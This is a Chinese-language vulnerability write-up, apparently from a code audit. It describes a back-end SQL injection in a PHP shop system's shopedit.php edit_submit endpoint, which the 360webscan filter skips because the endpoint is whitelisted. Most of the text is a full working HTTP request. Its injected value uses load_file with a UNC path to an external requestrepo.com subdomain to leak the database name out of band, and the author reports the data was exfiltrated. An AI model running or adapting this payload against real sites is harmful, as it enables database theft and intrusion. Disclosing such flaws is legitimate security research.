



linux环境开个服务就行

# 后台SQL注入-360webscan白名单

这个是项目360webscan白名单导致的



可以看到有几个白名单接口，一个个看

**shopedit.php**的**edit\_submit**接口365行通过query执行update，其中$cid参数在521行通过post获取，到执行点的链中没有字符转义，数据类型转换，存在注入，然后由于是白名单接口不会走360webscan

测试数据包

```
POST /admin/shopedit.php?my=edit_submit&tid=1 HTTP/1.1
Host: ip:port
Cookie: admin_token=c415%2BYfUGAAzR7VYbyAa8SsqFbXOrWe41j5GtqYPhWNoVyswlGmsAIYTOGfzg7RB650x4iWXcUH8T26xKF6pHShvwUZfDpzTokc1XNAT; PHPSESSID=4h4jp7jk3k944lcr5en7oj1jb5; mysid=9cad69a1439558ebb0878e80298f0e5b; user_token=2129LssuXaBKk%2FB2vY8Pp%2BKdf1Hh%2Fo1mvmeXE6DFI17lTx7mhIif9kIUxPTO9pDSP3YaM53I7WDnjWDnMoqw; counter=1
Referer: http://ip:port/admin/shopedit.php?my=edit&tid=1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Origin: http://ip:port
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Length: 322

backurl=http%3A%2F%2Fip%3Aport%2Fadmin%2Fshoplist.php&is_curl=0&showcontent=qq&curl=&curl_post=qq&goods_id=0&goods_type=0&goods_param=qq&value=123' ; select 1,load_file(concat('\\',(select database()),'.evdrfzl2.requestrepo.com\abc')) -- &cid=caigosec&name=123&ordername=123&prid=0&price1=0.00&price=0.00&cost=0.00&cost2=0.00&input=123&inputs=123&desc=123&alert=123&shopimg=123&multi=1&min=0&max=0&repeat=0&validate=0
```

成功带外出数据
